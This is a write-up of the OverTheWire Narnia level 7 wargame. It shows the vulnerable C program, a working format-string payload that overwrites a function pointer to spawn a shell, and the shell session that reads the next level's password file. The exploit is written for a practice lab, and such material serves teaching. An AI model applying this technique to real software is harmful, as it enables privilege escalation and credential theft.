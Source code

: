 ## Login 

` SSH : ssh narnia7@narnia.labs.overthewire.org -p 2226 `
` Pass : 54RtepCEU0 `

## Solution

First, let’s try to execute the program…

```
$ ssh narnia7@narnia.labs.overthewire.org -p 2226

cd /narnia/
narnia7@narnia:/narnia$ ./narnia7
Usage: ./narnia7 <buffer>
narnia7@narnia:/narnia$ ./narnia7 test
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd648)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```

Looks like we need to redirect the execution flow somehow…
### Source Code

Let’s check the source.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int goodfunction();
int hackedfunction();

int vuln(const char *format){
        char buffer[128];
        int (*ptrf)();

        memset(buffer, 0, sizeof(buffer));
        printf("goodfunction() = %p\n", goodfunction);
        printf("hackedfunction() = %p\n\n", hackedfunction);

        ptrf = goodfunction;
        printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

        printf("I guess you want to come to the hackedfunction...\n");
        sleep(2);
        ptrf = goodfunction;

        snprintf(buffer, sizeof buffer, format);

        return ptrf();
}

int main(int argc, char **argv){
        if (argc <= 1){
                fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                exit(-1);
        }
        exit(vuln(argv[1]));
}

int goodfunction(){
        printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
        fflush(stdout);

        return 0;
}

int hackedfunction(){
        printf("Way to go!!!!");
	    fflush(stdout);
        setreuid(geteuid(),geteuid());
        system("/bin/sh");

        return 0;
}
```

When we execute the program, we land ont the _goodfunction()_ but the program want us to execute the _hackedfunction()_. If we take a close look, we can see there is a _format string_ vulnerability in the _snprintf()_ function.

```
$ ./narnia7 ABCD
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd638)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```

So, according to the program, we need to modify **prtf** with the address of _hackedfunction()_ (`0x8048724`). To do that we need to write `0x8048724` at `0xffffd638` (_prtf()_). Since we don’t really know where our input is placed on the stack, we’ll just brutforce the position. Note that the value we’ll write will be **134514464** (`134514468 (or 0x8048724) - 4 = 134514464`)

```
narnia7@narnia:/narnia$ ./narnia7 $(python -c 'print "\x38\xd6\xff\xff" + "%134514464d%1$n"')
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd638)
I guess you want to come to the hackedfunction...
Segmentation fault
# Nope...

narnia7@narnia:/narnia$ ./narnia7 $(python -c 'print "\x38\xd6\xff\xff" + "%134514464d%2$n"')
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd638)
I guess you want to come to the hackedfunction...
Way to go!!!!$
$ whoami
narnia8
$ cat /etc/narnia_pass/narnia8
i1SQ81fkb8
```

On the second try !